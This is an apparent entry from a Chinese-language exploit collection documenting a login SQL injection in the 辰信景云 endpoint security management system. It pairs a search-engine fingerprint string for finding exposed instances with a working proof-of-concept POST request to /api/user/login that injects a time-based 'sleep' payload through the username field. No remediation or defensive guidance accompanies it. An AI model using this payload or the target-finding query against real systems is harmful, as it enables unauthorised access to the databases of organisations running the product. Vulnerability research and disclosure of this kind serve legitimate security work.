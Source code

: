# 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>辰信领创 辰信景云终端安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"辰信景云终端安全管理系统"</a-checkbox></br>

## 漏洞复现、

登录页面

![img](../../../.vuepress/public/img/1653535043300-0848f113-f483-47b4-bd33-305485f46ae8.png)

验证POC

```java
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![img](../../../.vuepress/public/img/1653535112545-1861e3cf-b0ac-4a04-9851-3b6ccb377bd1.png)
